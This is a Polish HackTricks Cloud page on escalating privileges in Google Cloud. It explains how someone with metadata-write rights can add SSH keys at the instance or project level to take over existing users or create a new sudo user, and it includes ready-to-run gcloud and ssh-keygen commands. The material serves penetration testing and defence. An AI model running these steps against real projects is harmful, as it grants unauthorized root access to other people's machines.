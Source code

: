 # GCP - Dodaj niestandardowe metadane SSH

## GCP - Dodaj niestandardowe metadane SSH

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

### Modyfikacja metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znaczących zagrożeń bezpieczeństwa, jeśli atakujący zdobędzie niezbędne uprawnienia**.

#### **Włączenie kluczy SSH do niestandardowych metadanych**

Na GCP, **systemy Linux** często wykonują skrypty z [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Krytycznym komponentem tego jest [demon kont](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który jest zaprojektowany do **regularnego sprawdzania** punktu końcowego metadanych instancji w poszukiwaniu **aktualizacji autoryzowanych kluczy publicznych SSH**.

Dlatego, jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` **istniejącego użytkownika lub potencjalnie stworzy nowego użytkownika z uprawnieniami `sudo`**, w zależności od formatu klucza. A atakujący będzie mógł przejąć kontrolę nad hostem.

#### **Dodaj klucz SSH do istniejącego użytkownika z uprawnieniami**

1. **Zbadaj istniejące klucze SSH na instancji:**
*   Wykonaj polecenie, aby opisać instancję i jej metadane, aby zlokalizować istniejące klucze SSH. Odpowiednia sekcja w wyniku będzie pod `metadata`, konkretnie klucz `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielona dwukropkiem.
2. **Przygotuj plik tekstowy dla metadanych klucza SSH:**
* Zapisz szczegóły nazw użytkowników i ich odpowiadających kluczy SSH w pliku tekstowym o nazwie `meta.txt`. To jest istotne dla zachowania istniejących kluczy podczas dodawania nowych.
3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**
*   Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada docelowej nazwie użytkownika.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.
4. **Zaktualizuj metadane klucza SSH instancji:**
*   Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Uzyskaj dostęp do instancji za pomocą nowego klucza SSH:**
*   Połącz się z instancją za pomocą SSH, używając nowego klucza, uzyskując dostęp do powłoki w kontekście docelowego użytkownika (`alice` w tym przykładzie).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Utwórz nowego użytkownika z uprawnieniami i dodaj klucz SSH**

Jeśli nie znaleziono interesującego użytkownika, można utworzyć nowego, któremu nadane zostaną uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest rozszerzenie zasięgu dostępu SSH do wielu maszyn wirtualnych (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. To podejście umożliwia dostęp SSH do każdej instancji w projekcie, która nie zablokowała wyraźnie kluczy SSH na poziomie projektu. Oto podsumowany przewodnik:

1. **Zastosuj klucze SSH na poziomie projektu:**
*   Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z `meta.txt` do metadanych projektu. Ta akcja zapewnia, że klucze SSH są rozpoznawane we wszystkich VM w projekcie, chyba że VM ma włączoną opcję "Zablokuj klucze SSH na poziomie projektu".

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH do instancji za pomocą kluczy na poziomie projektu:**
* Z kluczami SSH na poziomie projektu możesz SSH do dowolnej instancji w projekcie. Instancje, które nie blokują kluczy na poziomie projektu, zaakceptują klucz SSH, przyznając dostęp.
* Bezpośrednią metodą na SSH do instancji jest użycie polecenia `gcloud compute ssh [INSTANCE]`. To polecenie używa twojej bieżącej nazwy użytkownika i kluczy SSH ustawionych na poziomie projektu, aby spróbować uzyskać dostęp.

## Odniesienia

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
